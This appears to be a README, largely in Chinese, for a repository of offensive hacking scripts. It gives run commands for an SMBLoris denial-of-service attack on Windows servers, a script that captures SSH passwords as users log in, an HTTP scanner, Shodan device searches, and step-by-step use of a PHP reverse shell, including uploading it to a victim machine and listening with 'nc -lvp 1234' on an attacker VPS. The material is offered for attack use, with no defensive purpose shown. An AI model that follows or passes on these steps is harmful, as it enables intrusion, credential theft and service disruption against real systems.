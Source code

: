 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic

shodancount.py weblogic

调用shodan api 搜索设备,如weblogic

shodansearch.py weblogic

# SMBLoris 通过smb对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为自己的公网vps

上传该脚本到被攻击的机器上

登录自己的公网vps，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在vps上看到shell

php php-reverse-shell.php

# Hope you enjoy ^_^